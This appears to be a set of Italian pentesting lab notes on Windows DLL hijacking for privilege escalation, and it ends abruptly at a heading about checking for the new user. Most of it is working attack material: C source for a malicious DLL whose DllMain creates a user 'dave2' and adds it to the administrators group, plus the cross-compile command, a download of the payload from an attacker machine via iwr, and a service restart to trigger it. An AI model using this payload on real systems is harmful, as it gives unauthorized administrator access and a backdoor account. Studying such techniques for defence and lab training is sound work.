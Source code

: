 Nel caso analizzato, è stata posizionata una DLL malevola all'interno della cartella documenti dell'utente, in quanto (per via dello standard) è la seconda cartella dove il sistema va a cercare la dll ed era sovrascrivibile dall'utente.

Interessante tutta la parte della spiegazione di come le dll funzionano.

Di seguito una dll che permette di creare un utente amministratore:

```bash
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Compilazione su kali:

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

Trasferimento su windows:

```bash
python3 -m http.server 8080

cd Documents
iwr -uri http://$KALI_IP/myDLL.dll -Outfile myDLL.dll
```

Riavvio del servizio:

```bash
Restart-Service BetaService
```

Controllo creazione nuovo utente:
